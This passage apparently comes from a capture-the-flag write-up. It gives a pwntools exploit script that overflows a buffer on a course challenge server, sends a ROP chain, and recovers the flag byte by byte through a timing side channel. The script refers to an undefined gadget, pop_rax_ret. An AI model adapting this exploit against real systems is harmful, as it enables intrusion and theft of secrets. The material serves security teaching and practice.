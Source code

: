             r = remote('edu-ctf.zoolab.org', 10012)
            {create ROP}
            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :
                ...
            except:
                ...
            r.close()
        idx += 1
        flag += chr(guess)
    ```
* Whole exploit
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    flag_addr = 0x4de2e0
    pop_r14_ret = 0x402797
    mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    flag = ''
    idx = 0
    while idx < 53:
        guess = 0x20
        while guess < 0x80 :
            # r = process('./chal')
            r = remote('edu-ctf.zoolab.org', 10012)
            ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
            )
            ROP += infinite_loop

            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :
                # If compare not correct, guess++ and access to infinity loop
                r.recv(timeout=0.5)
                break
            except:
                # If compare correct, pwntool will break out
                guess += 1
            r.close()
